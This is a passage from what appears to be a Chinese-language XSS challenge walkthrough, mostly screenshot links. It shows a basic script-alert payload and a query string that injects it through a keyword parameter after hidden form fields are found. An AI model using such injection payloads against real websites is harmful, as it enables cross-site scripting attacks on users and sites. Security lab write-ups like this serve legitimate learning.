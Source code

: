 ![image-20220116141718033](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116141718033.png)

```
<script>alert(1)</script>
```

![image-20220116141811028](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116141811028.png)

发现多了表单：

那么尝试传参：

```
?keyword=<script>alert(1)</script>&t_link=1&t_history=2&t_sort=3
```

![image-20220116142657484](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/03%20XSS%E6%8C%91%E6%88%98.assets/image-20220116142657484.png)
